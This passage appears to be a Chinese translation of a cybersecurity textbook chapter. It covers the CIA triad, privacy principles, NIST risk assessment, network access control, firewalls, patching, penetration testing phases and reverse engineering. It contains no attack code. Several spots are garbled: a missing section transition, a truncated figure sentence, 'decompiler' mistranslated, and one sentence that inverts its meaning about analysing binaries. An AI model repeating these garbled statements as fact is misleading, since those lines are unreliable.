可用性确保信息和系统在合法用户请求时能够准备就绪以满足其需求。可用性控制（如容错、聚类和备份）旨在确保合法用户可以根据需要获得访问。与完整性威胁类似，可用性威胁可能源于寻求破坏访问的攻击者，也可能来自非恶意源，例如火灾摧毁了包含宝贵信息或服务的数据中心。

网络安全分析师在执行工作时经常会提到这三个目标，即`CIA 三要素模型`（CIA Triad）。在描述风险、攻击和安全控制时，他们通常将其描述为符合`CIA 三要素模型`的某一个或多个目标。

## 隐私 vs 安全

`隐私`与安全是两个密切相关的概念。我们刚刚讨论了安全的三个主要组成部分：机密性、完整性和可用性。这些目标都关注组织保护其自身数据的方法。机密性保护数据免受未经授权的泄露。完整性保护数据免受未经授权的修改。可用性保护数据免受未经授权的拒绝访问。

隐私控制的重点不同。隐私并不关注组织保护自身信息的方法，而是关注组织如何使用和共享其收集的关于个人的信息。这些数据被称为`个人身份信息 (PII)`，通常受到监管标准的保护，并始终受伦理考量的约束。组织寻求保护隐私信息的安全，并可能使用与其保护其他类别敏感信息相同的安全控制，但隐私义务超出了纯安全的范畴。隐私涵盖了组织如何与他人使用和共享其收集并维护的信息。

`通用接受隐私原则 (GAPP)`概述了组织应努力遵循的 10 隐私实践：

* **管理**指出，组织应该在隐私政策和相关文档中记录其隐私实践。
* **通知**指出，组织应该就其隐私实践通知个人，并告知个人其收集了哪些类型的信息以及如何使用这些信息。
* **选择与同意**指出，组织应对`PII`进行存储、使用和共享前获得个人的直接同意。
* **收集**指出，组织仅应为通知中说明的且经个人同意的目的收集`PII`。
* **使用、留存与处置**指出，组织应仅为确定的目的使用信息，不得将为某一声明目的收集的信息用于任何其他未披露的目的。
* **访问**指出，组织应根据个人请求，允许其访问组织记录中关于该个人的任何信息。
* **披露**指出，组织仅在符合通知和同意的情况下才会向第三方披露信息。
* **安全**指出，`PII`将受到保护以免受未经授权的访问。
* **质量**指出，组织将维护准确且完整的信息。
* **监控与执行**指出，组织将建立业务流程以确保其符合其隐私政策。

`GAPP`原则是构建隐私计划的强大最佳实践。在某些司法管辖区和行业，隐私法律要求实施其中几项原则。例如，欧盟（EU）的《通用数据保护条例》（`GDPR`）要求处理欧盟居民数据的组织必须以符合隐私要求的方式处理个人信息。

## 评估安全风险

网络安全风险分析是任何信息安全计划的基石。分析师必须花时间彻底了解自己的技术环境以及危及其信息安全的外部威胁。全面的网络安全风险评估结合了内部和外部因素的信息，帮助分析师理解组织面临的威胁，并设计一套适当的控制措施应对这些威胁。

在深入风险评估的世界之前，我们必须从通用词汇开始。你必须了解三个重要术语以便与其他风险分析师进行清晰沟通：漏洞、威胁和风险。


`漏洞`（vulnerability）是设备、系统、应用程序或流程中的弱点，可能导致攻击的发生。漏洞是网络安全专业人员可以控制的内部因素。例如，运行旧版本`Apache`服务的 Web 服务器可能包含漏洞，允许攻击者对该服务器托管的网站进行拒绝服务（`DoS`）攻击，从而危及其可用性。组织内部的网络安全专业人员有能力通过将`Apache`服务升级到不再易受`DoS`攻击的最新版本来修复此漏洞。

网络安全世界中的`威胁`（threat）是指可能利用漏洞的外部力量。例如，一个想要对网站进行`DoS`攻击并已知`Apache`漏洞的黑客构成了明确的网络安全威胁。虽然许多威胁在本质上是恶意的，但情况并非如此。例如，地震也可能通过破坏包含 Web 服务器的数据中心来破坏网站的可用性。地震显然没有敌意。在大多数情况下，网络安全专业人员对消除威胁为不了多少。无论我们意愿如何，黑客都会进行攻击，地震也会发生。

`风险`（risk）是威胁与相应漏洞的结合。只有当这两个因素同时存在时，这种情况才会对组织安全构成风险。例如，如果黑客利用`DoS`攻击目标组织的 Web 服务器，但该服务器已修补，对该攻击不敏感，那么就没有风险，因为虽然存在威胁（黑客），但没有漏洞。同样，一个数据中心可能对地震敏感，因为墙墙的建造无法抵御地震期间的极端移动，但它可能位于一个不发生地震的地区。该数据中心可能对地震敏感，但其所在地几乎完全没有地震威胁，因此没有风险。

风险、威胁和漏洞之间的关系是非常重要的，通常用以下等式表示：

```
风险 = 威胁 × 漏洞
```

这并不是一个让你实际代入数值的字面方程。相反，它是为了证明这样一个事实：只有当存在威胁以及威胁可能利用的相应漏洞时，风险才存在。如果威胁或漏洞其中之一为零，风险也为空。图 1.2 以另一种方式展示了这一点：风险是威胁与漏洞的交集。

# 风险评估

风险存在于威胁与漏洞的交叉点。如果缺少威胁或漏洞中的任何一个，就不存在风险。

组织应定期进行风险评估，以掌握现有的风险状况。美国国家标准与技术研究所（`NIST`）发布了一份风险评估指南，该指南在整个网络安全领域被广泛用作风险评估的基础。该文档命名为`NIST 特别出版 (SP) 800-30`，建议了如图 1.3 所示的风险评估流程。



图 1.3 NIST SP 800-30 风险评估流程建议组织应当识别威胁和漏洞，然后利用这些信息确定由这些威胁和漏洞组合构成的风险水平。来源：NIST SP 800-30 / 美国商务部 / 公有领域

## 识别威胁

组织通过识别环境中存在的威胁类型来开始风险评估过程。虽然某些威胁（如恶意软件和垃圾邮件）会影响所有组织，但其他威胁针对特定类型。例如，政府资助的高级威胁（`APT`）攻击者通常针对政府机构以及在相关领域运营的公司。

`NIST`识别了组织可能面临且在威胁识别过程中应考虑的四类威胁：

- 敌性威胁（Adversarial threats）：是指试图蓄意破坏组织安全的个人、团体和组织。对手可能包括受信任的内部人员、竞争对手、客户、业务伙伴，甚至是国家。在评估敌性威胁时，网络安全分析师应考虑威胁者发起攻击的能力、威胁者的意图，以及该威胁针对该组织的概率。

- 意外威胁（Accidental threats）：当个人在执行日常工作时误操作了损害安全的行动时发生。例如，系统管理员可能会不小心删除关键卷，导致可用性丢失。在评估意外威胁时，网络安全分析师应考虑该威胁对组织可能产生的影响范围。

- 结构性威胁（Structural threats）：当设备、软件或环境控制因资源耗尽（如燃料耗尽）、超出其运行能力（如在极热下运行）或简单地由于老化而故障时发生。结构性威胁可能来自 IT 组件（如存储器、服务器和网络设备）、环境控制（如电源和冷却）以及软件（如操作系统和应用程序）。在评估结构性威胁时，网络安全分析师应考虑该威胁对组织可能产生的影响范围。

- 环境威胁（Environmental threats）：当发生组织无法控制的自然灾害或人为灾难时发生。这些可能包括火灾、洪水、严重风暴、停电或广泛的电信中断。在评估环境威胁时，网络安全分析师应考虑其所在地理区域常见的环境威胁，以及如何恰善地预防或应对人为威胁。

这些类别中威胁的性质和范围将取决于组织的性质、其技术基础设施的组成以及许多其他特定情况的因素。尽管如此，获取其他相似组织执行的风险评估副本，作为组织自身风险评估的起点，或在组织评估的各个阶段作为质量评估检查点，可能会有所帮助。

## 识别漏洞

在风险评估的威胁识别阶段，网络安全分析师专注于可能影响组织安全努力的外部因素。在完成威胁识别后，评估的重点转向内部，识别那些威胁可能利用以破坏组织机密性、完整性或可用性的漏洞。

本书的第 6 章](#c06.xhtml)“设计漏洞管理计划”和第 7 章](#c07.xhtml)“分析漏洞扫描”重点关注了漏洞的识别和管理。

## 确定可能性、影响和风险

在识别了组织面临的威胁和漏洞后，风险评估人员接下来寻找威胁与漏洞的组合，这些组合会对企业信息和系统的机密性、完整性或可用性构成风险。这需要评估风险发生的概率，以及在风险确实发生时对组织产生的影响。

在确定风险发生的概率时，分析师应考虑两个因素。首先，他们应该评估威胁源引发风险的概率。在对于敌性威胁源的情况下，这是对手对组织执行攻击的概率。对于意外、结构性或环境威胁，这是威胁发生的概率。第二个贡献因素是，在考虑到组织安全控制措施状态的情况下下，如果风险发生，它是否真的会对组织产生不利影响。在考虑了这些每一个标准后，风险评估人员分配一个整体可能性评分。这可以使用一些类别（如“低”、“中”和“高”）来定性地描述可能性。

风险评估人员使用类似的评分量表来评估风险的影响。这种评估应该假设威胁确实发生并给组织带来风险，然后尝试识别该风险对组织产生不利影响的程度。在评估此风险时，有助于参考图 1.1 所示的网络安全三大目标：机密性、完整性和可用性，然后评估风险对这些目标中每一个目标产生的影响。

在评估了风险的可能性和影响后，风险评估人员随后结合这两项评估来确定整体风险评分。这可能简单地使用一个类似于图 1.4 所示的矩阵，该矩阵描述了组织如何为风险分配整体评分。例如，组织可能会认为黑客攻击的可能性为中等，而影响将是高的。在图 1.4 中查找此组合，可以发现它应该被认为是高整体风险。同样，如果组织评估洪水的可能性为中等而影响为低，那么洪水场景的整体风险就是低风险。


图 1.4 许多组织使用风险矩阵根据可能性和影响评估来确定整体风险评分。

## 审查控制措施

网络安全专业人员使用风险管理策略（例如风险接受、风险规避、风险缓解和风险转移），来降低风险评估期间识别出的风险的概率和影响。组织管理安全风险的最常见方法是开发一套技术和操作安全控制措施，将这些风险降低到可接受的水平。

技术控制措施是用于执行机密性、完整性和/或可用性要求的系统、设备、软件和设置。技术控制措施的示例包括构建安全网络和实施端点安全，这两个主题将在本章的后续部分进行讨论。操作控制措施是增强网络安全的实实践和程序。操作控制措施的示例包括进行渗透测试以及使用反向工程来分析获取的软件。这两个主题也会在本章的后续部分进行讨论。

## 构建安全网络

许多针对组织网络安全的威胁是利用组织网络中的漏洞来获取对系统和信息的初始访问。为了帮助缓解这些风险，组织应该专注于构建安全的网络以将攻击者拒之门。组织可能用于有助于构建安全网络的控制措施示例包括：网络访问控制（NAC）解决方案；网络边界安全控制措施（如防火墙）；网络分段以及使用欺骗技术作为防御措施。

### 网络访问控制

大多数组织设定的基本安全目标之一是控制对组织网络的访问。网络访问控制（NAC）解决方案帮助安全专业人员实现两个网络安全目标：将网络访问限制在授权的人员范围内，并确保访问组织网络的系统符合基本安全要求。

`802.1X`协议是用于 NAC 的常用标准。当新设备希望获得网络访问时（通过连接到无线接入点还是插到有线网络端口），网络都会要求该设备使用`802.1X`协议进行身份验证。一种被称为“ supplic 方”（supplicant）的特殊软件运行在请求加入网络的设备上。supplic 方与名为“认证器”（authenticator）的服务通信，认证器运行在无线接入点或网络交换机上。认证器不具备验证用户本身所需的信息，因此它通过远程拨号用户服务（`RADIUS`）协议将访问请求传递给认证服务器。如果用户身份验证通过并被授权访问网络，交换机或接入点会将该用户接入网络。如果用户未成功完成此过程，设备将被拒绝访问网络，或者可能被分配到一个特殊的隔离网络进行修复。图 1.5 显示了参与`802.1X`身份验证的设备。



图 1.5 在`802.1X`系统中，尝试加入网络的设备运行 NAC supplicant，该 supplicant 与网络交换机或无线接入点上的认证器通信。认证器使用`RADIUS`与认证服务器通信。

市场上上有许多 NAC 解决方案，它们在两个主要方面有所不同：

- **基于代理 vs. 无代理（Agent-Based vs. Agentless）**：基于代理的解决方案（如`802.1X`）要求请求访问网络的设备运行专门用于与 NAC 服务通信的特殊软件。无代理 NAC 方法在 Web 浏览器中进行身份验证，不需要特殊软件。

- **带内 vs. 带外（In-Band vs. Out-of-Band）**：带内（或内联式）NAC 解决方案使用位于设备与其想要访问的资源之间的专用设备。它们拒绝或限制未通过 NAC 身份验证过程设备的网络访问。酒店中常见的“强制门户”（captive portal）NAC 解决方案会在客客输入房号之前劫持所有 Web 请求，这些都是带内 NAC 的示例。带外 NAC 解决方案（如`802.1X`）利用现有的网络基础设施，让网络设备与认证服务器通信，然后根据需要重新配置网络以授予或拒绝网络访问。

NAC 通常仅用于根据用户成功身份验证来限制授权用户的访问，但它们也可能根据其他标准做出网络准决策。NAC 解决方案使用的一些标准如下：

- **时间段**：用户可能仅在特定时间段内（如工作时间内）被授权访问网络。

- **角色**：用户可能根据其在组织中的角色被分配到特定的网络段。例如，大学可能会将教职员工和工作人员分配到管理网络（该网络可以访问管理系统），而将学生分配到学术网络（该网络不允许此类访问）。

- **地理位置**：用户可能根据其物理位置被授予或拒绝对网络资源的访问。例如，对数据中心网络的访问可能仅限于物理上位于数据中心内的系统。

- **系统健康状况**：NAC 解决方案可以使用运行在设备上的代理来获取设备的配置信息。未能达到最低安全标准的设备（例如：主机防火墙配置错误、病毒定义过时或缺少安全补丁的设备）可能会被完全拒绝网络访问，或被放置在特殊的隔离网络中，在该网络中它们仅被授予更新系统安全所需的有限访问权限。

管理员可以创建 NAC 规则，根据这些特征的任何组合来限制访问。NAC 产品提供了实施组织特定网络接入安全要求的所需的活性。

### 防火墙与网络安全

NAC 解决方案旨在管理直接连接到组织有线或无线网络的系统。对于那些试图通过物理访问设施并连接设备到物理网络来获取组织信息资源的入侵者，它们提供了极佳的保护。但它们无法防止试图通过网络连接获取访问的入侵者。这就是防火墙发挥作用的地方。

网络防火墙位于网络边界处并提供边界安全。就像安全员可能控制建筑的物理边界一样，网络防火墙控制着电子边界。防火墙通常以图 1.6 所示的三宿方式进行配置。三宿简单意味着防火墙连接到三个不同的网络。图 1.6](#c01.xhtml#c01-fig-0006)中的防火墙连接到互联网、内部网络以及一个被称为非军事化区（`DMZ`）或筛选子网的特殊网络。任何想要从一个区域通过另一个区域的流量（例如从互联网到内部网络）都必须经过防火墙。



**图 1.6** 三网防火墙连接到三个不同的网络，通常是内部网络、受保护子网和互联网。

受保护子网是一个特殊的网络区域，旨在容纳接收来自外部连接的系统，例如 Web 服务器和电子邮件服务器。良好的防火墙设计会将这些系统放置在隔离网络中，这样即使它们被攻破，对内部网络的威胁也很小，因为受保护子网与内部网络之间的连接必须经过防火墙，并受其安全策略的限制。

每当防火墙接收到连接请求时，它都会根据防火墙规则库进行评估。该规则库是一个访问控制列表（ACL），用于识别允许通过防火墙的流量类型。防火墙使用的规则通常指定流量的源 IP 和目的 IP 地址，以及对应授权服务的目的端口。常见端口列表出现在表 1.1 中。防火墙遵循默认拒绝原则，即如果没有显式允许某连接的规则，防火墙将拒绝该连接。

**表 1.1** 常见 TCP 端口

| 端口 | 服务 |
| --- | --- |
| 20,21 | FTP |
| 22 | SSH |
| 23 | Telnet |
| 25 | SMTP |
| 53 | DNS |
| 80 | HTTP |
| 110 | POP3 |
| 123 | NTP |
| 143 | IMAP |
| 389 | LDAP |
| 443 | HTTPS |
| 636 | LDAPS |
| 1433 | SQL Server |
| 1521 | Oracle |
| 1723 | PPTP |
| 3389 | RDP |

如今市场上上有几类防火墙，它们在价格和功能上不相同：

- 包过滤防火墙仅根据防火墙规则检查每个数据包的特征，不具备任何额外的智能。包过滤防火墙的功能通常位于路由器和其他网络设备中，是非常基础的防火墙。

- 状态检测防火墙超越了包过滤器，并维护着通过防火墙的每个连接的状态信息。这些是作为独立产品出售的最基本的防火墙。

- 下一代防火墙（NGFW）在其决策过程中整合了更多信息，包括关于用户、应用程序和业务流程的上下文信息。它们是目前网络防火墙保护的最先进技术，与状态检测设备相比，价格相当昂贵。

- Web 应用防火墙（WAF）是专用防火墙，旨在防御 Web 应用程序攻击，例如 SQL 注入和跨站脚本。

### 网络分段

防火墙使用名为`network segmentation`（网络分段）的原理将不同安全级别的网络相互隔离开。这一原理显然适用于图 1.6 所示的示例，其中内部网络、受保护子网和互联网具有不同的安全级别。

操作系统是极其复杂的软件，旨在执行成千上万种不同的功能。构成现代操作系统的庞代码库是漏洞的频繁来源，操作系统厂商频繁发布的安全补丁证明了这一点。

系统管理员保护端点的最重要的方法之一是对其配置进行加固，使其尽可能地抵御攻击。这包括禁用端点上任何不必要的服务或端口以减少其对攻击的易敏感性，确保设备上存在安全配置设置，并集中控制设备安全设置。

### 补丁管理

系统管理员必须维护其所负责的所有操作系统和应用程序的最新安全补丁水平。一旦厂商发布安全补丁，攻击者可能已经获知漏洞，并可能立即开始攻击易受影响的系统。组织等待应用安全补丁的时间越长，落入攻击的概率就越大。尽管如此，企业在将补丁部署到生产系统和网络之前，应该始终进行测试。

幸运的是，补丁管理软件便于在整个企业集中分发和监控系统的补丁水平。例如，微软的`Endpoint Manager`允许管理员快速查看企业系统的补丁状态，并修复任何缺失补丁的系统。

### 组策略

组策略为管理员提供了一种高效的方法，用于管理大量设备的安全和其他系统配置设置。微软的组策略对象（`GPO`）机制允许管理员一次性定义安全设置组，然后将这些设置应用于企业中的所有系统或基于角色的系统组。

例如，图 1.8

`图 1.8` 组策略对象（GPOs）可用于同时应用于许多不同的系统。

## 渗透测试

网络安全分析师除了负责安全控制的设计和实施外，还负责监控这些控制的持续有效性。渗透测试是他们履行这一义务使用的技巧之一。在渗透测试期间，测试人员使用真实攻击者可使用的相同信息、工具和技术对组织模拟攻击。他们试图获取系统和信息的访问权限，然后向管理层报告他们的发现。渗透测试的结果可能用于增强组织的安全控制。

渗透测试可以由组织的内部人员或外部顾问进行。在内部测试的情况下，它们需要高技能的人员且非常耗时。外部测试缓解了这些担忧，但执行通常非常昂贵。尽管渗透测试存在这些障碍，组织也应尝试定期进行测试，因为一个设计良好且执行良好的渗透测试是衡量组织网络安全状况的最佳措施之一。

NIST 将渗透测试分为图 1.9 所示的四个阶段。



`图 1.9` NIST 将渗透测试分为四个阶段。 来源：NIST SP 800-115 / 美国商务部 / 公有领域

### 渗透测试规划

渗透测试的规划阶段为测试奠定了行政基础。在规划阶段不进行任何技术工作，但它是任何渗透测试的关键组成部分。在规划阶段需要确定以下三个重要的交战规则：

- **时机**：测试将在何时进行？技术人员会获知测试吗？能否安排时间，使其对业务运营的影响降至最低？

- **范围**：渗透测试的约定范围是什么？是否有任何系统、网络、人员或业务流程是测试人员的禁区？

- **授权**：谁授权进行渗透测试？如果测试人员遇到员工或其他个人，他们应该怎么办？

这些细节具有行政性质，但事先通过书面形式达成共识非常重要，以避免在渗透测试期间和之后出现问题。

### 执行发现


渗透测试的技术工作开始于发现阶段，此时攻击者进行侦察，并尽可能地收集有关目标网络、系统和应用程序的信息。这可能包括对可用材料进行审查、对系统进行端口扫描、使用网络漏洞扫描器和 Web 应用程序测试器探测漏洞，以及进行其他信息收集。

## 执行渗透测试

在攻击阶段，渗透测试人员试图绕过组织的安全控制并获取系统和应用程序的访问。测试人员通常遵循图 1.10 所示的 NIST 攻击过程。



在此过程中，攻击者利用发现阶段收集的信息获取系统的初始访问权限。一旦建立了脚点，他们就会寻求提升访问权限，直到获得系统的完全管理控制。从那里开始，他们可以扫描网络上的其他系统，安装额外的渗透测试工具，并重新开始循环，以扩大他们在目标组织内的足迹。他们继续这种循环，直到耗尽所有可能性或分配测试的时间结束。

## 汇报渗透测试结果

在渗透测试结束后，测试人员会准备一份详细的报告，说明他们所获得的访问权限以及为了获得这些权限而利用的漏洞。渗透测试的结果是非常具价值的安全规划工具，因为它们描述了攻击者可能利用的、获取网络访问权限的实际漏洞。渗透测试报告通常包含详细的附录，其中包含了各种测试的结果，并可能与负责修复这些问题的系统管理员共享。

## 培训与练习

除了进行渗透测试外，一些组织还选择运行攻防演习（wargame）练习，在网络防御场景下让安全专业人员团队之间进行相互竞争。这些练习通常在模拟环境中进行，而不是在生产网络上，旨在通过让安全人员接触攻击者所使用的工具和技术，来提高双方的专业技能。大多数网络安全攻防演习涉及三支团队：

- 红队扮演攻击者的角色，使用侦察和利用工具尝试获取受保护网络的访问。红队的工作与渗透测试期间测试人员的工作相似。
- 蓝队负责保护目标环境，通过构建、维护和监控一套全面的安全控制措施将红队隔在之外。
- 白队负责协调演习并担任裁判，调解团队之间的争议，维护技术环境并监控结果。

网络安全攻防演习可以是教育安全专业人员掌握现代攻防战术的有效方式。

# 逆向工程

在许多情况下，供应商不会发布硬件和软件工作原理的细节。当然，恶意软件的作者也不会向世界解释他们的工作。在这些情况下，安全专业人员可能对其环境安全性一无所知。逆向工程是一种用于从成品反向推导其如何工作原理的技术。安全专业人员有时使用逆向工程来了解可疑软件的内部机制或检查硬件的完整性。逆向工程使用一种被称为“分解”的哲学，逆向工程师从成品开始，逐步追溯到其各个部分。

## 隔离与沙箱

现代组织安全面临的最危险威胁之一是由 APT（高级持续性威胁）组织开发的定制恶意软件，这些组织创建了专门用于渗透单一目标的特殊工具。由于这些工具从未被使用过，因此传统的杀病毒软件所使用的特征检测技术无法发现它们。

沙箱是一种基于软件行为而非特征来检测恶意软件的方法。沙箱系统监控系统和网络中的未知代码段，当它们检测到以前未见过的应用程序时，会立即将该代码隔离在一个名为`sandbox`（沙箱）的特殊环境中，在该环境中无法访问任何其他系统或应用程序。沙箱解决方案随后执行代码并观察其行为，检查它是否开始扫描网络其他系统、收集敏感信息、与命令与控制服务器通信或执行任何潜在的恶意活动。

如果沙箱解决方案识别出异常行为，它将阻止代码进入组织网络并将其标记为待管理员审核。此过程也称为`code detonation`（代码爆炸），是一种根据观察到的软件行为采取行动的自动化逆向工程示例。

## 软件逆向工程

在大多数编程语言中，开发者使用人类可读的语言（如`C/C++`、`Java`、`Ruby`或`Python`）编写软件。根据编程语言的不同，计算机以两种方式之一处理这些代码。在解释型语言中（如`Ruby`和`Python`），计算机直接从源代码运行。寻求分析解释型语言编写代码的逆向工程师可以简单地阅读代码，通常对代码试图实现的目标有一个良好的了解。

在编译型语言中（如`Java`和`C/C++`），开发者使用名为`compiler`（编译器）的工具将源代码转换为计算机可读的二进制代码。这些二进制代码通常分发给软件用户，要检查二进制代码并确定其在做什么是非常困难的，甚至是可能的，这使得编译型语言的逆向工程变得困难得多。寻求逆向工程编译型语言的技术人员有两种选择。首先，他们可以尝试使用名为`decompiler`（反汇器）的专用程序。然而，这种方法通常效果并不理想。其次，他们可以使用专用环境并仔细监控软件对不同输入的响应。

## 硬件逆向工程

硬件逆向工程比软件逆向工程更加困难，因为硬件的真实性往往取决于嵌入电路的固件内容。虽然组织可能会对硬件进行物理检查以检测篡改，但验证硬件的真实性（即其来自可靠的来源）是非常重要的，因为详尽地测试硬件是不可能的。

美国政府意识到了确保真实性的困难，并为关键防御系统运行可信代工厂计划。美国国防部（`DoD`）和国家安全局（`NSA`）认证公司为可信代工厂，为政府制造敏感集成电路。寻求可信代工厂地位的公司必须证明其完全保护了生产过程，包括设计、原型制作、封装、组装和其他环节。

寻求确定硬件功能的逆向工程师使用与分析编译软件相似的技术，特别是在观察行为方面。在受控环境中运行硬件并观察其对不同输入的响应，为硬件的功能提供线索。逆向工程师可能还会向原始设备制造商（`OEMs`）获取文档，以了解硬件组件的功能。

# 效率与流程改进

网络安全分析师执行大量的日常工作。从分析日志到评估漏洞，我们的工作有时是枯燥且容易出错的。强大的安全团队会投入资金改进自己的流程，通过标准化和自动化提高效率，减少错误概率，并释放分析师宝贵的时间从事更重要的工作。

## 标准化流程与简化操作

团队提高效率的首要方法是为重复性活动创建标准化流程。当你发现自己面对一个需要临时发挥来寻找解决方案的任务时，这说明你可能需要花时间为未来处理类似事件创建一个标准化流程。这对于你发现自己反复执行的活动尤其如此。

